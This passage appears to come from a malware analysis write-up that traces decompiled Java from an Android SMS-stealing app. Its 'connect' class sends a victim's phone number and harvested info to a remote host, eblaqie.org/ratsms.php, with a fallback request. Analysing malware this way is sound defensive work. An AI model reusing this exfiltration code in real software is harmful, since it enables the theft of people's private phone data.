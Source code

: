 Read more here on PDUs: [https://en.wikipedia.org/wiki/Protocol_data_unit](https://en.wikipedia.org/wiki/Protocol_data_unit) 

Lastly the `MyReceiver` class calls the connection class via the `new` operator. Instantiating it in memory.

### `connect` Class

Tracing the `new` operator to the `connect` class we can see the use of various utils in the code snippet below. 

```java
[TRUNCATED]
import android.content.Context;
import android.content.SharedPreferences;
import android.util.Log;
import com.androidnetworking.AndroidNetworking;
import com.androidnetworking.error.ANError;
import com.androidnetworking.interfaces.JSONArrayRequestListener;
import org.json.JSONArray;
[TRUNCATED]
```

The initial class call below for connect deploying various strings, contexts and preferences. 

```java
[TRUNCATED] 
/* loaded from: classes.dex */
public class connect {
    Context context;
    SharedPreferences preferences;
    String url;
[TRUNCATED]
```

Three in particular which are core to this class are the `Log`, `SharedPreferences` and `JSONArray`. Log appears to be left over logging for the malware developer and the two other appear to be pulling data from the SharedPreferences from the prior class and loading that data into a JSON array. 

```java

[TRUNCATED]
    public connect(final String str, final String str2, Context context) {
        this.url = str;
        this.context = context;
        AndroidNetworking.initialize(context);
        AndroidNetworking.get("https://eblaqie.org/ratsms.php?phone=" + str + "&info=" + str2).build().getAsJSONArray(new JSONArrayRequestListener() { // from class: ir.siqe.holo.connect.1
            @Override // com.androidnetworking.interfaces.JSONArrayRequestListener
            public void onResponse(JSONArray jSONArray) {
            }

            @Override // com.androidnetworking.interfaces.JSONArrayRequestListener
            public void onError(ANError aNError) {
                Log.i("==================", "erroeererewrwerwer");
                AndroidNetworking.get("https://google.com" + str + "&info=" + str2).build().getAsJSONArray(new JSONArrayRequestListener() { // from class: ir.siqe.holo.connect.1.1
                    @Override // com.androidnetworking.interfaces.JSONArrayRequestListener
                    public void onResponse(JSONArray jSONArray) {
                    }

                    @Override // com.androidnetworking.interfaces.JSONArrayRequestListener
                    public void onError(ANError aNError2) {
                        Log.i("==================", "erroeererewrwerwer");
                    }
                });
            }
```